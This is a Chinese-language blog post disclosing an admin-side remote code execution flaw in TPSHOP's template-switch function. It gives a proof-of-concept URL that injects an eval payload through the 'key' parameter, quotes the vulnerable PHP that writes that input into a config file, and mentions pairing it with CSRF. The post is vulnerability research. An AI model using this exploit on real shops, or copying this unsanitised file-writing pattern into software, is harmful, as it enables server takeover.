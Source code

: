 ```yaml
---
title: TPSHOP-GETSHELL
date: 2017-11-24 13:59:47
tags:
	- PHP
	- 代码审计
categories: 渗透
---
```


最近看大佬在审计TPSHOP，心痒痒也不知羞耻地跟着看代码，还真给我找了个后台getshell，调了很久，终于调通了POC

<!-- more -->

最近看大佬在审计TPSHOP，心痒痒也不知羞耻地跟着看代码，还真给我找了个后台getshell，调了很久，终于调通了POC

http://xxx/index.php/Admin/template/changeTemplate/key/'.eval('echo 123;').'/t/pc

利用条件是需要登陆进入后台，触发点在后台的模板修改处，点击“启用”按钮就可以发送一个GET请求，把GET请求中的KEY参数改为'.eval('echo 123;').' 即可。。
或者是直接登陆进入后台，直接浏览器请求POC也行的

漏洞触发点在  application/admin/controller/Template.php 中的changeTemplate方法中

```php
public function changeTemplate(){        
        
        $t = I('t','pc'); // pc or  mobile        
        $m = ($t == 'pc') ? 'home' : 'mobile';
        $key = $this->request->param('key');
        //$default_theme = tpCache("hidden.{$t}_default_theme"); // 获取原来的配置                
        //tpCache("hidden.{$t}_default_theme",$_GET['key']);
        //tpCache('hidden',array("{$t}_default_theme"=>$_GET['key']));                         
        // 修改文件配置  
         if(!is_writeable(APP_PATH."$m/html.php"))
            return "文件/".APP_PATH."$m/html.php不可写,不能启用魔板,请修改权限!!!";
         
                $config_html ="<?php
return [
            'template'               => [
            // 模板引擎类型 支持 php think 支持扩展
            'type'         => 'Think',
            // 模板路径
            'view_path'    => './template/$t/$key/',
            // 模板后缀
            'view_suffix'  => 'html',
            // 模板文件名分隔符
            'view_depr'    => DS,
            // 模板引擎普通标签开始标记
            'tpl_begin'    => '{',
            // 模板引擎普通标签结束标记
            'tpl_end'      => '}',
            // 标签库标签开始标记
            'taglib_begin' => '<',
            // 标签库标签结束标记
            'taglib_end'   => '>',
            //模板文件名
            'default_theme'     => '$key',
        ],
        'view_replace_str'  =>  [
            '__PUBLIC__'=>'/public',
            '__STATIC__' => '/template/$t/$key/static',
            '__ROOT__'=>''
        ]
    ];
?>";
         file_put_contents(APP_PATH."/$m/html.php", $config_html);
        delFile('./runtime');
        $this->success("操作成功!!!",U('admin/template/templateList',array('t'=>$t)));      
    }
```

其中$t 和 $key可控，咱们只需要让$key = '.eval('echo 123;').'即可
但是直接访问html.php是403的
然后由于config.php包含了html.php，index.php包含了config.php，所以直接访问修改后直接访问index.php即可getshell

这个洞是后台getshell，有点鸡肋，如果配合CSRF的话那么威力还是有的（萌新也只能挖个后台getshell了）

感谢@碧波 大神帮忙调通了POC。。



